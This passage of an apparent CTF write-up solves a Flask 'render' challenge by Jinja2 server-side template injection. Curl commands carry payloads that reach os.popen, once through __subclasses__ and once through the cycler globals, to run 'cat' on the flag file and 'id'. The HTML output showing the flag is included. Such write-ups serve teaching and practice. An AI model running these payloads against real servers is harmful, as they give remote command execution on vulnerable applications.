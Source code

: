 ```html
        <br>
        <p id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-size: 45px;
                                                        font-weight: bold;
                                                        font-family: 'Roboto Mono', monospace;">
                                                        Welcome Mentee : app.py
requirements.txt
static
templates
this_IS_TH3_FLL4AAAG

        </p>
</body>

</html> 
```

From here, we can execute a simple `cat` command to read the `this_IS_TH3_FLL4AAAG` file :

```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data 'name={{"foo".__class__.__base__.__subclasses__()[207].__init__.__globals__["sys"].modules["os"].popen("cat this_IS_TH3_FLL4AAAG").read()}}'
```

```html
        <br>
        <br>
        <p id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-size: 45px;
                                                        font-weight: bold;
                                                        font-family: 'Roboto Mono', monospace;">
                                                        Welcome Mentee : shellmates{SSTI_X_J1NJA_893274}

        </p>
</body>

</html>
```

2. Another solution is to use a context-free payload, and do not require anything, except being in a jinja2 Template object. We can do that by exploiting the `cycler` module, this module is used by `flask`, so it is always there, and do imports `os` module so we can exploit is to get some Command Execution (Got it from here [Payloads All Things - SSTI - Jinja2 - Remote Execution](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution), you can check the command or other commands as well): 

```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data "name={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}"
```

